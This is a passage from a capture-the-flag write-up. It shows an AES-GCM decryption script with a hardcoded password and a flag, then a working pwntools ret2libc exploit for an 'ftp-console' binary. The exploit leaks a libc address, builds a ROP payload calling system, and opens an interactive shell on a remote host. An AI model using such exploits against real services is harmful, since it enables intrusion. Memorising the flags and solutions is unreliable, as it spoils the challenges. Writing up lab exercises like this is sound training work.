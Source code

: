4. **Decryption**:
   - Developed a Python function to decrypt the ciphertexts using the derived keys.

```python
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2
from base64 import b64decode

data = b64decode("46xPFEfuu5Lk1WFBqjeFbhWpbI7PmR/BzllqefGm/ocmD1WHAEZhrM3quZ3eb8tyqYu1zrD5xkO55QtYzZvvI2BkpVfKGQGbLiQ2TQKUxK6dSPIvQKQqtd39pxLOBU8Gcat5drU=")  # longest ciphertext
passw = "SHALLOWgrounds13"  # corresponding password
key = PBKDF2(passw, "0123456789abcdef", dkLen=32, count=100000)
nonce, tag, ct = data[:16], data[16:32], data[32:]
cipher = AES.new(key, AES.MODE_GCM, nonce)
print(cipher.decrypt_and_verify(ct, tag))
```

---

### ftp-console
**Proof of flag**
`CTF{093f6a8964db7d3c07e9eed18179cc35a22ae1d96dfa18a295beb7bcfa05fd7f}`

**Summary of the vulnerabilities identified**
The challenge involved exploiting a binary to leak memory addresses, allowing the calculation of the libc base for crafting a ROP payload. The libc version was identified using a leak from the remote instance.

**Proof of solving**
1. **Memory Leak**:
   - Connected to the binary and extracted a leak to calculate the libc base.

2. **ROP Payload Construction**:
   - Developed a ROP payload based on the leaked address and offset for the `system` function.

```python
from pwn import *

r = remote("34.107.40.88", 31124)
elf = context.binary = ELF("./ftp")
libc = ELF("./libc6_2.35-0ubuntu3.7_i386.so")
r.sendlineafter(b"USER ", b"a")
leak = r.recv().split(b" ")[-2].split(b"\n")[0]
leak = int(leak.decode()[2:], 16)
libc.address = leak - libc.sym["system"]
payload = b"a" * 80
payload += p32(libc.sym["system"])
payload += p32(0)
payload += p32(libc.address + 0x1bd0d5)
r.sendline(payload)
r.interactive()
```
